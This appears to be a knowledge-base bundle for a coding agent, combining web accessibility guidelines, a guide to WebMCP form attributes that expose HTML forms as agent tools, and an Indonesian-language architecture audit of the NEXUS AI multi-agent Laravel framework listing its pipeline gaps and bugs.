- **Informative Visual Descriptions**: Describe the purpose of the image (e.g., "Search", not "Magnifying glass").
- **Empty Alt properties for decorative visuals**: Use `alt=""` to remove decorative images from the accessibility tree so they aren't announced.
- **Synchronous Captions for videos**: Supply WebVTT captions for video tracks.
- **Transcripts for audio**: Provide text transcripts for purely audio podcasts.
- **Informative View Descriptions for inline SVGs**: Apply `role="img"` and a nested `<title>` tag for informative visuals.
- **Decorative SVGs removal**: Apply `aria-hidden="true"` to remove decorative SVGs from reading flows.
- **Long descriptions for complex images**: Use `<figure>`/`<figcaption>` or `aria-describedby` for charts and infographics.
- **Provide data tables as alternatives**: Consider providing semantic data tables as accessible alternatives for charts and other complex data visualizations.

#### DON'Ts
- **Don't use clichéd prefixes**: Avoid "Image of..." or "Picture of...".
- **Don't use underscores in filenames**: Use dashes if the filename might be announced as fallback.

### Code Examples

```html
<!-- Decorative -->


<!-- Inline Decorative SVG (remove from tab flow) -->
<svg aria-hidden="true" viewBox="0 0 24 24">
  <path d="M10 20v-6h4v6h5v-8h3L12 3 2 12h3v8z"/>
</svg>

<!-- Informative (Functional) -->
<a href="/search">
  
</a>

<!-- Video with Captions tracks -->
<video controls>
  <source src="intro.mp4" type="video/mp4">
  <track src="caps.vtt" kind="captions" srclang="en" label="English">
</video>

<!-- Complex graph with figcaption -->
<figure>
  
  <figcaption>Sales grew 20% in Q3 due to new platform launch.</figcaption>
</figure>

<!-- Audio with expandable transcript details -->
<audio controls src="podcast.mp3" aria-details="podcast-transcript"></audio>
<details id="podcast-transcript">
  <summary>View Transcript</summary>
  <div class="transcript-content">
    Welcome to the show...
  </div>
</details>
```

### Content Visibility Decision Matrix

| Intent | Visual | Screen Reader | Focusable | Structural Pattern |
| :--- | :--- | :--- | :--- | :--- |
| **Visible to all** | Yes | Yes | Yes | Standard rendering |
| **Screen Reader only** | No | Yes | Yes (if interactive) | Visually hidden utility (e.g. `.visually-hidden`) |
| **Visual only** | Yes | No | No | `aria-hidden="true"` / `role="presentation"` |
| **Hidden for all** | No | No | No | `hidden` attribute / `display: none` |

**Heuristic Rule**: If an element can receive keyboard focus, it must not be hidden via `aria-hidden="true"`.

## 7. Forms and Input Controls

### Actionable Guidelines

#### DOs
- **Connect Labels Programmatically**: Use `<label for="id">` linked to `<input id="id">`.
- **Use Autocomplete**: Set valid standard `autocomplete` options (e.g., `"email"` or `"given-name"`) for user profiles.
- **Link hints to inputs via `aria-describedby`**: Associate help text with inputs, and place the hint above the input so autocomplete popovers don't cover it during editing.
- **Announce dynamic errors via live regions**: Use `aria-live` or shift focus to error lists.
- **Provide form validation constraints**: Use `required` (or `aria-required="true"` only when `required` isn't applicable) to signal mandatory inputs.

#### DON'Ts
- **Don't use placeholders as labels**: Placeholders are not persistent labels.
- **Don't trigger context shifts on focus changes**: Avoid auto-submitting forms or jumping pages on focus change events alone.

### Code Examples

```html
<!-- Good: Semantic forms with hints for passwords -->
<form>
  <label for="pwd">Password:</label>
  <span id="pwd-hint">Must contain at least 8 characters.</span>
  <input id="pwd" type="password" aria-describedby="pwd-hint" autocomplete="current-password" required>
</form>
```

## 8. Live Regions

Live regions let assistive tech announce content updates that aren't tied to navigation or focus changes. They're easy to misuse — too many regions, or noisy ones, quickly become spam for screen-reader users.

### Live Region Urgency Table

| Urgency | Visual Analogue | `aria-live` Value | Behavioral Impact | Example |
| :--- | :--- | :--- | :--- | :--- |
| **Critical** | Modal / Alert | `assertive` (or `role="alert"`) | Interrupts immediately, clears speech queue | Session timeout, API failure |
| **Standard**| Toast / Banner | `polite` | Announces at next graceful break | Search results, "Saved" status |
| **Passive**  | Silent text | `off` | Only if user navigates to it | Live character count |

**Heuristic Rule**: Use `assertive` only for critical, time-sensitive updates that require immediate attention or prevent safe continuation (e.g., data loss, session timeouts, or network drops).

### Actionable Guidelines

#### DOs
- **Centralize live regions for non-visible announcements**: A single `polite` region and a single `assertive` region per page (with whatever `aria-atomic` configuration you need) keeps announcements consistent and easier to maintain. Many frameworks ship their own announcer abstraction — use it.
- **Debounce frequently-changing regions**: If a region can update many times per second (e.g. a combobox's result count as the user types), debounce so users aren't spammed.
- **Delay slightly when other announcements may collide**: When the user is typing or focus is being managed, a small delay before announcing keeps live-region updates from overlapping other speech.

#### DON'Ts
- **Don't use live regions for interstitial states** like "Loading…" or "Updating…" unless they're meaningfully informative — they usually just create noise.
- **Don't add live-region updates to inert DOM**: When dialogs open or sections become `inert`, queued or debounced messages can end up unannounced — or announced from DOM the user can't reach. Coordinate live-region updates with dialog/inert state changes.

### Code Example

```html
<!-- Session Timeout Warning with controls -->
<div role="alert" aria-live="assertive" class="timeout-warning">
  Your session will expire in 2 minutes. 
  <button onclick="extendSession()">Extend Session</button>
</div>
```

## 9. Color, Contrast, and Typography

### Actionable Guidelines

#### DOs
- **Minimum contrast standards**: Maintain 4.5:1 for normal text and 3:1 for large text or icons.
- **Ensure non-text contrast standards**: Maintain a minimum contrast ratio of 3:1 for user interface component boundaries and states.
  - This includes visual elements (borders, backgrounds, box-shadows, underlines) that form the boundary or indicate the presence of a UI component (e.g., input field borders).
  - This also includes visual elements indicating active states within a component (e.g., checkbox checkmarks or switch thumbs).
  - **Caveat**: Meeting 3:1 non-text contrast can challenge minimalistic designs. Soft gradients or subtle inset/outset shadows can soften visual boundaries while satisfying accessibility requirements.
- **Use multiple state indicators**: Do not denote success/errors ONLY with color. Use icons or text.
- **Relative font size units**: Use `rem` or `em` for font sizes instead of `px`.
- **Consistent or Start alignment**: Avoid `justify` alignment as it can be more difficult to read.
- **Avoid long lines of text**: Cap paragraph blocks to a maximum of 80 characters width.
- **Support user zoom preferences**: Allow users to resize text up to 200% without loss of content or functionality.
- **Support light and dark color schemes**: Honor `@media (prefers-color-scheme: dark)` and pair it with the `color-scheme` CSS property so form controls, scrollbars, and other UA-rendered surfaces match.
- **Use `prefers-contrast` only when warranted**: Reach for `@media (prefers-contrast: more)` when the design uses low-contrast accents (e.g., subtle borders, muted secondary text) that need to be reinforced; most sites that already meet baseline contrast won't need it.

#### DON'Ts
- **Don't use color alone to indicate the presence of a user interface component or its state**: Use iconography and/or shape to help differentiate.
- **Don't use Justified Text Alignment**: Avoid `text-align: justify`.
- **Don't use Ornate fonts**: Omit cursive typefaces for main reading content.
- **Don't rely on all-caps for emphasis**: Prefer bolding for visual emphasis, and use `<em>`/`<strong>` when the emphasis is semantic.
- **Limit emphasis overall**: Emphasis loses meaning when it's everywhere — apply it only where it changes how the content should be read.

### Code Examples

```css
/* Good: Relative sizing and line caps */
body {
  line-height: 1.5;
  text-align: start; /* Supports LTR and RTL */
}
article {
  max-width: 80ch; /* Caps line length to ~80 characters for readability */
}
```

```html
<!-- Good: Denotes state without colors alone -->
<div class="error-msg">
  <span aria-hidden="true">❌</span>
  <span>The password entered was invalid.</span>
</div>
```

```css
/* Dark Mode support variables */
:root {
  --bg-color: #ffffff;
  --text-color: #212529;
}
@media (prefers-color-scheme: dark) {
  :root {
    --bg-color: #121212;
    --text-color: #f8f9fa;
  }
}
```

## 10. Motions and Preferences

### Actionable Guidelines

#### DOs
- **Support Reduced Motion media queries**: Support `@media (prefers-reduced-motion: reduce)` media queries.
- **Provide Pause mechanism**: Allow users to stop auto-running carousels banners or other persistent animations.
- **Default to static views**: Consider defaulting to static states and allowing users to opt-in to motion.

#### DON'Ts
- **Don't exceed flash limits (three per second)**: Never include rapid light-to-dark flashing. Such effects can cause seizures.

### Code Examples

```css
/* Good: Dampen spin states for reduced motion queries */
@media (prefers-reduced-motion: reduce) {
  .spinner {
    animation: none;
    opacity: 0.5;
  }
}
```

## 11. Modals and Native Dialogs

Modern browsers provide native solutions for creating modal dialogs which avoid the need for focus traps, managing the accessibility of outside content, ensuring the content is on top, and dimming the background content — all of which can be error prone and require heavy JavaScript event tracking to maintain.

### Actionable Guidelines

#### DOs
- **Use the Native `<dialog>` Element**: Invoke the dialog using the `.showModal()` method to open it in a modal state. When in a modal state, the browser sets outside content as inert (i.e. the outside content is hidden from the accessibility tree and cannot be interacted with nor be focused).
- **Use the `inert` Attribute for Custom Overlays**: When `<dialog>` cannot be used (e.g., some non-modal overlays, framework constraints, or layouts where `<dialog>`'s top-layer/positioning behavior conflicts with the design), apply `inert` to outside content to ensure it cannot be interacted with by keyboard, pointer, or assistive technology. This requires structuring elements in such a way that the custom overlay is not a descendant of the element with `inert` set on it.

#### DON'Ts
- **Don't implement focus traps for native modal dialogs**: When a `<dialog>` element is opened in a modal state, browsers set outside content as inert which is sufficient for ensuring only the dialog’s content can be focused.

### Code Examples

**HTML & JS: Native `<dialog>` with standard close events**
```html
<!-- Dialog opens natively with showModal() and locks focus -->
<button id="open-btn">Open Dialog</button>

<dialog id="accessible-modal" aria-labelledby="title-id">
  <h2 id="title-id">Account Settings</h2>
  <p>Update your details here.</p>
  <button onclick="this.closest('dialog').close()">Close Dialog</button>
</dialog>

<script>
  document.getElementById('open-btn').addEventListener('click', () => {
    document.getElementById('accessible-modal').showModal();
  });
</script>
```

## 12. Testing Validations

### Actionable Guidelines

#### DOs
- **Run Automated checks via axe-core or Lighthouse audits**: Catch missing alt texts or low contrasts (e.g., via Lighthouse in Chrome DevTools MCP).
- **Validate Sequential Navigations using keyboards alone**: Using only keyboard shortcuts, such as Tab/Shift+Tab, arrow keys, Enter, Space, and Esc, confirm every interactive element is reachable and operable, and that focus never gets stuck.
- **Test on Screen Readers with calibrated browsers**: Rely on standard bindings (e.g., JAWS with Chrome, NVDA with Firefox, Narrator with Edge, VoiceOver with Safari on macOS and iOS, TalkBack with Chrome for Android).

#### DON'Ts
- **Don't rely purely on scores**: A 100% score does not guarantee real usability.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, ui-ux, performance, tdd, vcs, api]

### 📘 KNOWLEDGE: NEXUS_AGENTIC-FORMS.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

The Declarative API transforms standard HTML `<form>` elements into WebMCP tools via attributes. The browser synthesizes a JSON Schema from the form inputs and handles agent interactions.

## Form Attributes

*   `toolname`: Unique name for the tool.
*   `tooldescription`: Purpose of the tool.
*   `toolautosubmit`: (Optional) If present, the agent can submit the form without waiting for user interaction. 
*   `toolparamdescription`: (Optional) Provides a way to define a property description within the JSON Schema.
    *   **Resolution Order**: The browser uses `toolparamdescription` if present. In its absence, it uses the `textContent` of the associated `<label>` (skipping labelable descendants). If no label exists, it falls back to the `aria-description`.
    *   **Grouping (Fieldsets)**: To attach a description to a group of related elements (like `<input type="radio">` buttons), place `toolparamdescription` on the nearest parent `<fieldset>` element so it applies to the parameter group as a whole.

### Example

```html
<form toolname="search-cars" 
      tooldescription="Perform a car make/model search" 
      toolautosubmit>
  <label for="make">Vehicle Make</label>
  <input type="text" id="make" name="make" required>
  
  <label for="model">Vehicle Model</label>
  <input type="text" id="model" name="model" toolparamdescription="e.g., 330i, F-150" required>
  
  <button type="submit">Search</button>
</form>
```

## Handling Submissions in JavaScript

When an agent submits the form, the `SubmitEvent` includes `agentInvoked` (boolean) and `respondWith(promise)`.

```javascript
document.querySelector('form').addEventListener('submit', (event) => {
  event.preventDefault();

  // Validate the form
  const formValidationErrors = myFormIsValid();

  if (formValidationErrors.length > 0) {
    if (event.agentInvoked) {
      const errorString =
        'Validation failed: ' +
        formValidationErrors
          .map((err) => `${err.field} (${err.message})`)
          .join(', ');

      event.respondWith(Promise.resolve(errorString));
    }
    return;
  }

  const resultPromise = performAsyncSearch(new FormData(event.target));

  // Return the result directly to the agent without navigation
  if (event.agentInvoked) {
    event.respondWith(resultPromise);
  }
});
```

## Lifecycle Events

The window emits events when agents start or stop interacting with a tool:

```javascript
window.addEventListener('toolactivated', ({ toolName }) => {
  console.log(`Tool "${toolName}" was activated by the agent.`);
});

window.addEventListener('toolcancel', ({ toolName }) => {
  console.log(`Tool "${toolName}" interaction was cancelled.`);
});
```

## Visual Feedback (CSS)

Use pseudo-classes to highlight forms when an agent interacts with them:

*   `:tool-form-active`: Applied to the `<form>` element actively used by the agent.
*   `:tool-submit-active`: Applied to the submit button when the browser pauses for user review (if `toolautosubmit` is omitted).

```css
form:tool-form-active {
  outline: 2px dashed blue;
  background-color: rgba(0, 0, 255, 0.05);
}

button:tool-submit-active {
  outline: 2px dashed red;
  animation: pulse 2s infinite;
}
```

## Form Suitability (When to Avoid)

The Declarative API is best for self-contained, standard forms. It is a poor choice in these scenarios:

* **Highly Dependent Fields**: Forms where inputs change options or visibility based on other inputs. The synthesized schema cannot express these dependencies well.
* **Custom UI Components**: Forms relying on non-standard inputs (e.g., canvas, rich text editors) that don't auto-serialize values.
* **Multi-Step Wizards**: Complex workflows requiring multiple form submissions. The Imperative API or standard DOM interaction is better suited here.

## When to use toolautosubmit
* **Read-Only Operations & Queries**: Searches, filters, fetching details, or checking status (e.g., a car model search, searching a directory, checking stock availability).
* **Low-Risk, Reversible Actions**: Form actions that can easily be undone or refined by the user manually (e.g., adding items to a cart, applying a coupon code, saving a draft, or setting temporary layout options).

## When to omit toolautosubmit
* **Destructive or Irreversible Actions**: Deleting records, resetting system configurations, or clearing databases.
* **Financial & Transactional Actions**: Submitting a checkout form, transferring funds, authorizing subscription payments, or final order placements.
* **High-Impact User Communication**: Submitting a final job application, sending emails/messages to other real users, or publishing public-facing content.
* **Sensitive Account Settings**: Changing passwords, modifying user roles/permissions, or updating billing/profile info.

## Fallback strategies

Form-associated WebMCP attributes is not natively supported by any major browser yet.

The WebMCP Declarative API is safe to use in all browsers. Browsers that do not support WebMCP will ignore the `tool*` attributes, and the `<form>` will continue to function as a normal HTML form. No feature detection is required.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, database, ui-ux, performance, saas, api]

### 📘 KNOWLEDGE: NEXUS_AI_ARCHITECTURE_ANALYSIS.MD

# NEXUS AI — Analisis Arsitektur & Audit Pipeline Sandbox
> **VERSION**: v1 | **Last Updated**: 26/05/2026


**Versi Dokumen:** 1.0  
**Tanggal:** 18 Mei 2026  
**Scope:** Full architecture review + extreme sandbox pipeline inspection  
**Fokus Utama:** Apakah output akhir adalah web app yang bisa digunakan, dan apakah knowledge tersimpan ke memory inti NEXUS.

---

## Daftar Isi

1. [Ringkasan Eksekutif](#1-ringkasan-eksekutif)
2. [Peta Arsitektur Keseluruhan](#2-peta-arsitektur-keseluruhan)
3. [Temuan: Kekuatan Arsitektur](#3-temuan-kekuatan-arsitektur)
4. [Temuan: Risiko & Bug Kritis](#4-temuan-risiko--bug-kritis)
5. [Audit Ekstrem: Sandbox Pipeline End-to-End](#5-audit-ekstrem-sandbox-pipeline-end-to-end)
6. [Gap Analysis: "Web App yang Bisa Digunakan"](#6-gap-analysis-web-app-yang-bisa-digunakan)
7. [Gap Analysis: "Memory Inti Nexus"](#7-gap-analysis-memory-inti-nexus)
8. [Rekomendasi Perbaikan Prioritas](#8-rekomendasi-perbaikan-prioritas)
9. [Peta Jalan (Roadmap)](#9-peta-jalan-roadmap)

---

## 1. Ringkasan Eksekutif

NEXUS AI adalah framework orkestrasi multi-agent berbasis Node.js yang dirancang untuk membangun, mengaudit, dan mengevolusi project TALL Stack (Laravel + Livewire + Alpine.js + Tailwind CSS) secara otonom. Arsitekturnya terstruktur dengan baik, namun terdapat **6 gap kritis** yang menyebabkan dua tujuan utama — menghasilkan web app yang dapat digunakan dan menyimpan knowledge ke memory inti — **belum terpenuhi secara penuh**.

**Status Pipeline Saat Ini:**
- `spawnRealLaravel()` → **SENGAJA di-throw Error** (belum diimplementasikan)
- `WorktreeManager.isActive` → **hardcoded `false`** (Git isolation tidak aktif)
- `docker-compose.yml` → **tidak mendefinisikan Redis service** (memory backbone hilang)
- `KnowledgePhase.harvest()` → **berjalan, tapi sumber data seringkali kosong** karena sandbox tidak menghasilkan dokumentasi

---

## 2. Peta Arsitektur Keseluruhan

```
┌─────────────────────────────────────────────────────────────────┐
│  ENTRY LAYER                                                     │
│  cli.js ──► agent/main.js                                        │
└─────────────────────────────┬───────────────────────────────────┘
                              │
                              ▼
┌─────────────────────────────────────────────────────────────────┐
│  CORE ORCHESTRATOR: NexusEngine                                  │
│  State Machine: INIT → PROCESSING → EXECUTING → LOGGING → END   │
└──────────┬──────────────┬──────────────┬────────────────────────┘
           │              │              │
    ┌──────▼──────┐ ┌─────▼──────┐ ┌───▼──────────────────────┐
    │ Orchestrator│ │EvolutionP. │ │MemoryPipeline + Distiller│
    │ DLQ + Retry │ │Spawn/Harv. │ │Redis + KnowledgeHUB      │
    └──────┬──────┘ └─────┬──────┘ └──────────────────────────┘
           │              │
    ┌──────▼──────────────▼───────────────────────────────────┐
    │  PHASES PIPELINE (Sequential)                            │
    │  1. AuditPhase   → 6 specialist scanner, parallel-2     │
    │  2. PlanningPhase → findings → tasks → plan JSON        │
    │  2.5 ImplementationPhase → LLM generates PHP code       │
    │  3. ExecutionPhase → Modifier applies FILE_REPLACE etc  │
    │  4. VerificationPhase → Validator checks each task      │
    │  5. KnowledgePhase → Harvest → MemoryPipeline → HUB    │
    └─────────────────────────────────────────────────────────┘
           │
    ┌──────▼───────────────────────────────────────────────────┐
    │  INTELLIGENCE LAYER                                       │
    │  LocalIntelligence (Ollama: qwen3:8b)                    │
    │  Circuit Breaker + Task Whitelist + Prompt Size Guard    │
    └──────────────────────────────────────────────────────────┘
           │
    ┌──────▼───────────────────────────────────────────────────┐
    │  EXTERNAL SERVICES                                        │
    │  Ollama (LLM lokal) │ Redis (vector) │ Docker │ TALL Stack│
    └──────────────────────────────────────────────────────────┘
```

---

## 3. Temuan: Kekuatan Arsitektur

### 3.1 State Machine yang Eksplisit
`NexusEngine` mendefinisikan 6 lifecycle states secara eksplisit (`INIT`, `PROCESSING`, `EXECUTING`, `LOGGING`, `COMPLETED`, `FAILED`). Ini memudahkan debugging dan mencegah partial-state corruption.

### 3.2 Dead Letter Queue (DLQ) dengan Persistensi Disk
`Orchestrator` menyimpan task gagal ke `logs/dead_letter_queue.json` dengan retry otomatis ×3. Ini adalah pola production-grade yang jarang ditemukan di framework eksperimental sejenis.

### 3.3 Circuit Breaker pada LocalIntelligence
`LocalIntelligence` mengimplementasikan circuit breaker (CLOSED → OPEN → HALF_OPEN) untuk mencegah cascade failure saat Ollama overload. Dikombinasikan dengan TTL availability cache (60s sukses / 10s gagal), ini mencegah blocking calls yang sia-sia.

### 3.4 Guardrail EvolutionPiper
Hard cap `MAX_EVOLUTION_CYCLES = 25` dan `MAX_SESSION_MINUTES = 120` dengan persistensi ke `.evolution_state.json` adalah safety mechanism yang kritis untuk sistem otonom. Mencegah infinite loop yang bisa menghabiskan resource.

### 3.5 Path Traversal Protection di SandboxExecutor
`SandboxExecutor` menggunakan `path.resolve() + startsWith(allowedDir)` untuk mencegah path traversal, dan memvalidasi plugin terhadap `manifest.json`. Ini menutup vektor serangan yang umum.

### 3.6 Versioned Write di MemoryPipeline
Sebelum overwrite file knowledge, `MemoryPipeline.versionedWrite()` membuat backup bernama `basename_backup_{timestamp}.ext`. Tidak ada data knowledge yang hilang tanpa backup.

### 3.7 Task Whitelist di LocalIntelligence
Hanya 10 task type yang diizinkan memanggil LLM. Ini mencegah prompt injection atau penyalahgunaan API Ollama dari task yang tidak terdefinisi.

### 3.8 Parallel Audit dengan Concurrency Limit
`AuditPhase` menggunakan `ParallelRunner` dengan batas 2 concurrent specialist untuk mencegah OOM pada hardware terbatas (Ryzen 2500U, 8GB RAM). Ini adalah design decision yang sadar dan tepat.

### 3.9 Dynamic APP_KEY Generation
`EvolutionPiper.spawnSandbox()` menggunakan `crypto.randomBytes(32).toString('base64')` untuk APP_KEY, bukan hardcoded value. Ini menghindari security vulnerability umum pada project Laravel template.

---

## 4. Temuan: Risiko & Bug Kritis

### 🔴 KRITIS-1: `spawnRealLaravel()` Sengaja Di-throw
**File:** `agent/core/EvolutionPiper.js`  
**Kode:**
```javascript
async spawnRealLaravel(name) {
    throw new Error(
        'spawnRealLaravel: Not yet implemented. ' +
        'Use spawnSandbox(name, "crud") sebagai gantinya...'
    );
}
```
**Dampak:** Tidak ada project Laravel nyata yang pernah di-scaffold. Sandbox 'crud' hanya membuat 4 file stub (Controller, routes, migration, .env). Tidak ada `composer install`, tidak ada `npm install`, tidak ada server yang berjalan. **Output akhir bukan web app yang bisa digunakan.**

**Fix:** Implementasikan `composer create-project laravel/laravel` via `spawn()` dengan penanganan error dan timeout.

---

### 🔴 KRITIS-2: `WorktreeManager.isActive = false` (Hardcoded)
**File:** `agent/core/WorktreeManager.js`  
**Kode:**
```javascript
// ⛔ GUARD: Set ke true hanya setelah git commands diuji
this.isActive = false;
```
**Dampak:** Seluruh Git isolation layer tidak aktif. Perubahan dari sandbox berbeda bisa saling overwrite. Tidak ada branching, tidak ada merge strategy. Saat 100 project dijalankan paralel, race condition pada filesystem tidak terlindungi.

---

### 🔴 KRITIS-3: Redis Tidak Ada di `docker-compose.yml`
**File:** `docker-compose.yml`  
**Kondisi:** Hanya `nexus-ai` service yang didefinisikan. Tidak ada Redis service.
```yaml
services:
  nexus-ai:
    build: .
    # ... tidak ada redis service
```
**Dampak:** `RedisMemory` akan selalu gagal terkoneksi saat dijalankan via Docker. Seluruh vector memory backbone tidak tersedia. `MemoryPipeline` akan jatuh ke mode degraded tanpa fallback eksplisit.

---

### 🔴 KRITIS-4: `ImplementationPhase` Tidak Memanggil `artisan` atau `composer`
**File:** `agent/core/phases/ImplementationPhase.js`  
**Kondisi:** Phase ini hanya menulis file PHP (Model, Migration, Livewire Component) ke filesystem. Tidak ada:
- `composer install` untuk install dependencies
- `php artisan migrate` untuk membuat tabel database
- `php artisan key:generate` untuk APP_KEY
- `npm install && npm run build` untuk Vite/Tailwind compilation

**Dampak:** File PHP yang dihasilkan ada di folder yang benar, tapi aplikasi tidak bisa dijalankan karena tidak ada vendor directory, tidak ada database tables, dan tidak ada compiled assets.

---

### 🟡 SEDANG-5: Prompt 2MB Berpotensi Silent Truncation
**File:** `agent/prompts/internal/guru.md` (2.08MB), `orchestrator.md` (2.08MB), `pipeline-architect.md` (2.08MB)  
**Kondisi:** `LocalIntelligence` punya `MAX_PROMPT_CHARS = 30000` (~7500 tokens), tapi file prompt ini jauh lebih besar.
```javascript
const MAX_PROMPT_CHARS = 30000;
// ...
if (prompt.length > MAX_PROMPT_CHARS) {
    // truncated — tapi apakah ada handling?
}
```
**Dampak:** Konteks yang paling penting (bagian akhir prompt, instruksi spesifik) mungkin terpotong secara diam-diam. LLM menghasilkan output yang tidak sesuai ekspektasi tanpa error yang jelas.

---

### 🟡 SEDANG-6: `KnowledgePhase.harvest()` Sumber Data Seringkali Kosong
**File:** `agent/core/phases/KnowledgePhase.js`  
**Kondisi:** Harvest mencari folder `memory/operational`, `docs/summary`, `nexus/knowledge`, dll. di dalam sandbox. Tapi sandbox 'crud' yang di-spawn `EvolutionPiper` hanya berisi 4 file stub. Tidak ada folder `memory/` yang pernah dibuat di dalam sandbox.

**Dampak:** `filesHarvested = 0` hampir selalu terjadi. Tidak ada knowledge yang masuk ke HUB. Memory inti NEXUS tidak berkembang dari pengalaman sandbox.

---

### 🟡 SEDANG-7: `docker-compose.yml` Tidak Mount `nexus/native/`
**File:** `docker-compose.yml`  
**Kondisi:**
```yaml
volumes:
  - ./memory:/app/memory
  - ./documentation:/app/documentation
  - ./agent/prompts:/app/agent/prompts
  # nexus/native/ TIDAK di-mount
```
**Dampak:** Binary C++ (`sandbox_orchestrator`) tidak tersedia di dalam container. `NativeBridge.callCpp()` selalu throw "binary not found".

---

### 🟢 MINOR-8: Cycle Counter Tidak Thread-Safe untuk Multi-Instance
**File:** `agent/core/EvolutionPiper.js`  
**Kondisi:** Persistensi cycle ke `.evolution_state.json` tidak menggunakan atomic lock. Jika dua proses NEXUS berjalan bersamaan, mereka bisa membaca nilai lama dan sama-sama increment ke nilai yang sama.

---

### 🟢 MINOR-9: `NexusError` Terlalu Minimal (353 bytes)
**File:** `agent/core/NexusError.js`  
**Kondisi:** Tidak ada error codes, tidak ada severity levels, tidak ada stack enrichment. 30+ komponen throw error dengan format message yang berbeda-beda.

---

## 5. Audit Ekstrem: Sandbox Pipeline End-to-End

Berikut tracing lengkap jalur eksekusi dari `nexus run` hingga output, berdasarkan pembacaan source code aktual:

### 5.1 Entry Point
```
cli.js
  └─► NexusEngine.constructor()
        ├─ resolve paths (auditPath, logPath, planningPath, ...)
        ├─ new Modifier(), new MemoryPipeline(), new TDDGuard()
        ├─ new Orchestrator(), new EvolutionPiper()
        ├─ new LocalIntelligence(), new SemanticEngine()
        └─ new Distiller()
```

### 5.2 Phase 1: AuditPhase
```
AuditPhase.run(targetPath)
  ├─ Scan 6 standard Nexus folders → WARNING jika missing
  ├─ Cek README.md, .env, LICENSE
  └─ ParallelRunner (concurrency=2):
        ├─ cyber-security scanner
        ├─ ux-engineer scanner
        ├─ seo-performance-specialist scanner
        ├─ database-architect scanner
        ├─ vcs-architect scanner
        └─ documentation-architect scanner
        ▼ setiap scanner: SandboxExecutor.execute(scannerPath)
             └─ Worker Thread (plugin-worker.js)
                  └─ require(scannerPath)(targetPath)
                  └─ result → message → resolve
        ▼
        Tulis: memory/raw/report_{spec}_{auditID}.json
```

**⚠️ Gap Ditemukan:** Scanner berjalan di Worker Thread tapi `timeout = 30000ms` default. Scanner yang berat (database-architect melakukan recursive file scan) bisa timeout sebelum selesai pada project besar.

### 5.3 Phase 2: PlanningPhase
```
PlanningPhase.run(auditReport)
  ├─ Filter findings (hilangkan INFO)
  ├─ Map findings → tasks (dengan auto-action untuk kasus sederhana)
  │    Contoh: '.env detected' → task.action = FILE_APPEND(.gitignore)
  └─ Tulis: planning/plan_{planID}.json + plan_{planID}.md
```

**⚠️ Gap Ditemukan:** Auto-action hanya mencakup satu kasus (`.env detected`). Mayoritas findings tidak punya `task.action`, sehingga ExecutionPhase tidak melakukan modifikasi fisik apapun untuk temuan tersebut. Plan dibuat tapi tidak dieksekusi secara nyata.

### 5.4 Phase 2.5: ImplementationPhase
```
ImplementationPhase.run()
  ├─ Baca NEXUS_BLUEPRINT.json
  ├─ Untuk setiap model → LocalIntelligence.generate(prompt, 'build_model_migration')
  │    └─ Ollama HTTP POST /api/generate
  │    └─ Tulis: app/Models/{Model}.php
  ├─ Untuk setiap migration → generate + tulis ke database/migrations/
  └─ Untuk setiap Livewire component:
        ├─ generate PHP class → app/Livewire/{Class}.php
        └─ generate Blade view → resources/views/livewire/{name}.blade.php
```

**🔴 Gap Kritis:** Tidak ada langkah `composer install`, `php artisan migrate`, `php artisan key:generate`, atau `npm run build`. File dihasilkan tapi aplikasi tidak bisa dijalankan.

### 5.5 Phase 3: ExecutionPhase
```
ExecutionPhase.run(plan)
  ├─ Untuk setiap task dengan task.action:
  │    ├─ Jika FILE_REPLACE/FILE_APPEND → TDDGuard.validate()
  │    │    └─ Jika tidak ada test → TDDScaffolder.generate()
  │    ├─ Jika ASSET_OPTIMIZE → AssetEngine.process()
  │    └─ Else → Modifier.apply(task.action)
  │         ├─ FILE_REPLACE: baca file, replace konten, tulis kembali
  │         ├─ FILE_APPEND: append ke akhir file
  │         ├─ FILE_CREATE: buat file baru
  │         └─ RESOLVE_OPTIONS: handle collision markers
  └─ ExecutionPhase.verify(plan)
        └─ Validator.verifyAction(task.action) untuk setiap task done
```

**⚠️ Gap Ditemukan:** `cleanCodeAndVerify()` mencari `NEXUS_BLUEPRINT.json` untuk mendapatkan `legacy_patterns`. Jika blueprint tidak ada (yang terjadi pada sandbox baru), method ini membuat `legacyPatterns = []` dan tidak membersihkan apapun. Tidak ada error, tapi juga tidak ada verifikasi real.

### 5.6 Phase 5: KnowledgePhase (Memory Internalization)
```
KnowledgePhase.run()
  ├─ memoryPipeline.optimize()
  │    ├─ archiveAuditReports() → pindah JSON audit ke memory/archived/
  │    ├─ archiveImplementationPlans() → pindah JSON plan ke archived/
  │    ├─ processHarvestData()
  │    │    └─ Baca golden/harvest/{project}/**/*.md
  │    │    └─ Merge/deduplicate ke memory/distilled/
  │    └─ writeSemanticIndex() → buat NEXUS_INDEX.md
  └─ distiller.run()
        ├─ standardizeNames() → prefix NEXUS_ pada semua file HUB
        ├─ simplifyContent() → summarize file panjang via LLM
        └─ applySemanticLinking() → tambah cross-references antar file
```

**🔴 Gap Kritis:** `KnowledgePhase.harvest(sourcePath)` harus dipanggil secara eksplisit SETELAH sandbox selesai dibangun. Tidak ada mekanisme otomatis yang memastikan harvest dipanggil di akhir setiap sandbox lifecycle. Jika tidak dipanggil, `processHarvestData()` menemukan `golden/harvest/` kosong dan tidak ada yang diproses.

---

## 6. Gap Analysis: "Web App yang Bisa Digunakan"

Definisi "web app yang bisa digunakan": aplikasi yang dapat diakses melalui browser, memiliki UI, koneksi database, dan fungsionalitas dasar.

| Komponen | Status | Kondisi Aktual |
|---|---|---|
| File PHP (Model, Controller, Routes) | ✅ Dibuat | `ImplementationPhase` menulis file via LLM |
| Blade Views | ✅ Dibuat | `ImplementationPhase` menulis Blade templates |
| `composer install` | ❌ Tidak ada | Tidak pernah dipanggil |
| `vendor/` directory | ❌ Tidak ada | Autoload tidak tersedia |
| Database migration | ❌ Tidak ada | `php artisan migrate` tidak pernah dipanggil |
| APP_KEY | ⚠️ Parsial | Ada di `.env` tapi `artisan key:generate` tidak dipanggil |
| Compiled CSS/JS | ❌ Tidak ada | `npm run build` tidak pernah dipanggil |
| Dev server | ❌ Tidak ada | `php artisan serve` tidak pernah dipanggil |
| **Hasil Akhir** | ❌ **Tidak Bisa Digunakan** | Kumpulan file PHP tanpa runtime |

**Kesimpulan:** Saat ini NEXUS AI menghasilkan *scaffold* file PHP, bukan *web app yang berjalan*. Gap utama ada di antara "file dihasilkan" dan "aplikasi dijalankan".

---

## 7. Gap Analysis: "Memory Inti Nexus"

